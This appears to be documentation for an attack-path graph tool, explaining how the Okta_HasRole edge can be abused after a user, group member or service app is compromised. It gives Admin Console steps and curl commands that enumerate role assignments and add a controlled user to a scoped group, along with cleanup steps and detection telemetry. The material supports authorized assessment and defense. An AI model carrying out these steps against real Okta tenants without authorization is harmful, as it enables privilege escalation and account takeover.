

## General Information

The non-traversable Okta_HasRole edges represent the role assignments for users in Okta:



## Abuse Info

`Okta_HasRole` is not the full abuse path by itself. It tells you that the source principal has the destination built-in role or custom role. An attacker who controls the source principal must combine this edge with `Okta_HasRoleAssignment` and `Okta_ScopedTo` to determine where the role applies, then use the derived permission edge that OpenHound emits from that role and scope.

For a user source, authenticate as the user. For a group source, compromise any member of the group because Okta admin roles assigned to a group are inherited by group members. For an application source, authenticate as the service app/client using its configured client credential and request an Okta Management API access token with the scopes allowed for that client.

To abuse this edge:

1. Compromise the source user, a member of the source group, or the source application's client credentials.
2. Follow `Okta_HasRoleAssignment` from the same source principal to find the concrete `Okta_RoleAssignment`.
3. Follow `Okta_ScopedTo` from that assignment to identify the destination resources the role can manage.
4. If the destination role is a built-in role, use the derived edge for the concrete privilege, such as `Okta_AppAdmin`, `Okta_GroupAdmin`, `Okta_HelpDeskAdmin`, `Okta_OrgAdmin`, `Okta_SuperAdmin`, or `Okta_GroupMembershipAdmin`.
5. If the destination role is a custom role, inspect its permissions and resource set, then use the derived edge such as `Okta_ResetPassword`, `Okta_ResetFactors`, `Okta_AddMember`, `Okta_ManageApp`, or `Okta_ReadClientSecret`.
6. Perform the smallest action needed on the scoped destination object, such as resetting a user's password, adding a controlled user to a group, modifying an application, or reading a client secret.

Using the Admin Console:

1. Sign in as the source user or as any compromised member of the source group.
2. Open **Security** > **Administrators** and locate the source principal.
3. Review the assigned role and its scope. For custom roles, review the custom role permissions and resource set.
4. Navigate to the scoped destination resource, such as **Directory** > **People**, **Directory** > **Groups**, or **Applications** > **Applications**.
5. Perform the concrete action allowed by the role and scope.
6. Verify the resulting graph path, such as a new group membership, app assignment, credential, or user recovery state.

Using the Okta API:

1. Set variables for the source principal, role assignment, and any temporary action you plan to perform.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export SOURCE_USER_ID="00u..."
    export SOURCE_GROUP_ID="00g..."
    export SOURCE_CLIENT_ID="0oa..."
    export ROLE_ASSIGNMENT_ID="JBC..."
    export CUSTOM_ROLE_ID="cr0..."
    export TARGET_GROUP_ID="00g..."
    export CONTROLLED_USER_ID="00u..."
    ```

2. List role assignments for the source principal. Use the path that matches the source node type.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles?expand=targets/catalog/apps&expand=targets/groups" \
      | jq -r '.[] | [.id, .type, .status, .assignmentType, .label] | @tsv'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/roles?expand=targets/catalog/apps&expand=targets/groups" \
      | jq -r '.[] | [.id, .type, .status, .assignmentType, .label] | @tsv'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$SOURCE_CLIENT_ID/roles?expand=targets/catalog/apps&expand=targets/groups" \
      | jq -r '.[] | [.id, .type, .status, .assignmentType, .label] | @tsv'
    ```

3. If the destination role is custom, inspect the permissions that drive derived edges.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/iam/roles/$CUSTOM_ROLE_ID/permissions" \
      | jq -r '.[] | [.label, .status] | @tsv'
    ```

4. Verify the role assignment scope before acting. This user-source example shows group and app targets embedded on the role assignment.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles/$ROLE_ASSIGNMENT_ID?expand=targets/catalog/apps&expand=targets/groups" \
      | jq '{id, type, status, assignmentType, targets: ._embedded.targets}'
    ```

5. Perform the concrete role-backed action. This example uses an `Okta_AddMember`-style permission to add a controlled user to a scoped group.

    ```bash
    curl -i -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

    A successful group membership change returns `204 No Content`.

6. Verify the action succeeded.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID) | [.id, .profile.login] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_HasRole` removes the temporary effect created by using the destination role and, if the role assignment was added only for the operation, removes that source principal's role assignment.

Cleanup using Admin Console:

1. Identify the concrete admin action performed through the role, such as a group membership, app assignment, user reset, factor reset, policy change, or credential change.
2. Restore that destination object to its original state.
3. If the source principal was placed in a role-bearing group, remove the temporary group membership.
4. If a temporary admin role assignment was created, open **Security** > **Administrators** and remove the source principal from the role.
5. Revoke sessions and tokens for any user or service client that received new access through the role.
6. Verify the `Okta_HasRole`, derived permission edge, and downstream access path no longer resolve.

Cleanup using API:

1. Remove the temporary action performed with the role.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

2. If the role came from temporary group membership, remove the controlled user from the source role-bearing group.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/users/$CONTROLLED_USER_ID"
    ```

3. If a temporary role assignment was created, delete it with the endpoint that matches the principal type.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$SOURCE_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$SOURCE_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID"
    ```

    A successful role unassignment returns `204 No Content`.

4. Revoke sessions for a controlled user that received interactive access through the role.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the role and temporary access are gone.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$SOURCE_USER_ID/roles?expand=targets/catalog/apps&expand=targets/groups" \
      | jq -r '.[] | select(.id == env.ROLE_ASSIGNMENT_ID)'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_USER_ID)'
    ```

## Opsec Considerations

Using `Okta_HasRole` creates telemetry for the concrete admin action, not for the graph relationship. Watch for `user.account.privilege.grant`, `user.account.privilege.revoke`, `iam.role.assignment.*`, `iam.resourceset.bindings.add`, `iam.resourceset.bindings.delete`, group membership events, application assignment events, user reset events, factor reset events, and service-client OAuth token use.

For group sources, defenders should correlate the role-bearing group membership change with subsequent admin actions by the new member. For application sources, correlate client-credentials token grants, requested scopes, source IP, and API calls.

## References

- [Okta roles guide](https://developer.okta.com/docs/api/openapi/okta-management/guides/roles/)
- [Okta role assignment concept](https://developer.okta.com/docs/concepts/role-assignment/)
- [Okta User Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentAUser/)
- [Okta Group Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentBGroup/)
- [Okta Client Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentClient/)
- [Okta custom role permissions](https://developer.okta.com/docs/api/openapi/okta-management/guides/permissions/)
- [Okta Group API: Unassign a user from a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/unassignUserFromGroup)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Eli Guy: Okta RBAC Attacks](https://xmcyber.com/blog/okta-rbac-attacks/)
